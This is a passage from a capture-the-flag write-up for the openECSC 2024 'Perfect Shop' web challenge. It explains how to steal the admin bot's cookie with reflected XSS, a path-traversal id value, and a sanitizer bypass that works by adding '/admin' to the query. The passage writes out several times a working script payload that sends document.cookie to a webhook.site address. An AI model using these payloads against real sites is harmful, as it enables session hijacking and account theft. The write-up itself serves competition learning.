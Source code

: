 <img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/HTMLmodif.png" alt="Modifying the product ID from client-side HTML">
Checking the logs, it can be seen that the bot is redirected to `search?q=Incredible`:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/BotFallsForIt.png" alt="Bot log visiting the search page with the value entered by the reporter">
A brief check of the site's route structure confirms this.

Now all that's left is to try the payload that worked before to exfiltrate our cookie on the bot. Trying the payload `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`, you would notice that the complete URL being visited is `http://localhost:3000/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` or `http://perfectshop.challs.open.ecsc2024.it/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` depending on whether you are testing the challenge locally or on the competition server.

This means that the same request must be made by the bot, which means making the same modification made before, combining it with the exploit already used:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/WePwnNoFilter.png" alt="Example of successful attack without filter">
Of course, I'm not URL-encoding the payload here just to make it easier to understand what's happening, but you viewers at home must remember to URL-encode properly <3 (on Burp, CTRL+U highlighting the text to be URL-encoded):

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/vid/UrlEncoding4profit.gif" alt="Example of URL-encoded payload">
First, URL-encode for the query parameter value that the bot will send to the search endpoint, and then URL-encode for the entire payload that is about to be sent to the bot.

Sending this payload, you'll receive a request on the webhook with the test flag set in the config:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/FlagNoFilter.png" alt="Test flag sent on the webhook">
#### Third step: Cookie stealing on the bot with the sanitizer active
On line 16, let's modify the sanitizer again to set it as in the original application, then rebuild everything:

`app.use(sanitizer.clean({ xss: true }, ["/admin"]));`

Once the application is rebuilt, you'll notice that none of the payloads used previously will work anymore, being replaced instead by an empty string.

In this step, there are very few tricks that can be done. To solve this problem, one had to notice the error present in the sanitizer library, and during the competition, it was a far-from-immediate step.

Let's say that for any reason, whether you tried to enter an `/admin` in the request as a query parameter, or during static analysis, you noticed that something was wrong with the sanitizer, now it's known that if `/admin` is a substring of the request URL (remember once again: query parameters are part of the URL), it will cause the sanitizer to ignore any type of XSS payload that is sent.

One very convenient thing is that if you decide to insert an unused query parameter in the request, it will simply be sent to the server and not used. This means that you can send a completely random parameter with the value `/admin` to skip any kind of sanitization without having to modify the payload in some convoluted way.

So, if before in the reporting phase you sent `id=1/../../search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=openECSC`, now you can send something similar to `id=1/../../search?lol=/admin&q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=/admin`.
